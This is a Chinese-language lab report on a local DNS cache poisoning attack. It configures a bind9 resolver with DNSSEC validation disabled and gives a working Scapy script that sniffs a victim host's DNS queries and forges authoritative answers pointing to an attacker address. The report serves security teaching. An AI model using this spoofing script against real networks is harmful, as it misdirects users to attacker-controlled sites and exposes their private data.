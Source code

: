 # 第9章实验报告

[TOC]

## 实验名称

实现本地 DNS 缓存中毒攻击

## 实验原理

通过污染DNS Cache，用虚假的IP地址信息替换Cache中主机记录的真实IP地址信息，可以改变域名和IP的映射关系，使得用户在访问某网站时被错误引导至攻击者的网站中，从而暴露隐私信息。

## 实验环境

### DNS 服务器

**Ubuntu22.04**作为域名解析服务器，配置`bind9`流程如下

```shell
sudo apt install bind9 bind9utils bind9-doc bind9-host
sudo systemctl status bind9
```

- 安装`bind9`后默认启动

<img src="./img/9-1.png" alt="9-1" style="zoom:67%;" />

```
bind 内容包括
    name DNS服务
    named-chkconfig(named.conf文件检查工具)
    named-checkzone(zone文件检查工具)
    rndc(本地和远程DNS控制工具)
bind-libs: named DNS服务库
bind-utils: 辅助工具
	host, dig, nslookup, nsupdate
bind-chroot: 切根程序用于切换到更安全的目录`/var/named/chroot`

bind 配置文件
/etc/bind/named.conf
其中引用了3个文件
    include "/etc/bind/named.conf.options";        # 默认创建
    include "/etc/bind/named.conf.local";          # 默认创建
    include "/etc/bind/named.conf.default-zones";

```

- bind9设置允许查询和转发，并关闭dnssec

```
// Global Profile

options {
        directory "/var/cache/bind";

		// 允许查询和转发
        forwarders { 8.8.8.8; };
        allow-query { any; };
        recursion yes;

        dnssec-validation no;  // 禁用dnssec
        auth-nxdomain no;
        listen-on-v6 { any; };
};

```

### 客户机

在客户机`/etc/resolv.conf`添加DNS*服务器*的IP地址

```
nameserver 192.168.*.*
```

### 攻击机

- 安装`scrapy`，编写Python程序监听DNS服务器，并伪造DNS权威服务器回复信息。

```python
from scapy.all import *


def spoofDNS(pkt):
    if (DNS in pkt):
        print("sniff: ", pkt[DNS].qd.qname.decode())
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='10.0.0.55', ttl=172800)

        DNSpkt = DNS(
            id = pkt[DNS].id,
            qd = pkt[DNS].qd,
            aa = 1,
            rd = 0,
            qdcount = 1,
            qr = 1,
            ancount = 1,
            nscount = 0,
            an = Anssec
        )
        spoofpkt = IPpkt / UDPpkt / DNSpkt
        send(spoofpkt)

pkt = sniff(filter = 'udp and (src host 192.168.177.134 and dst port 53)', prn = spoofDNS)

```

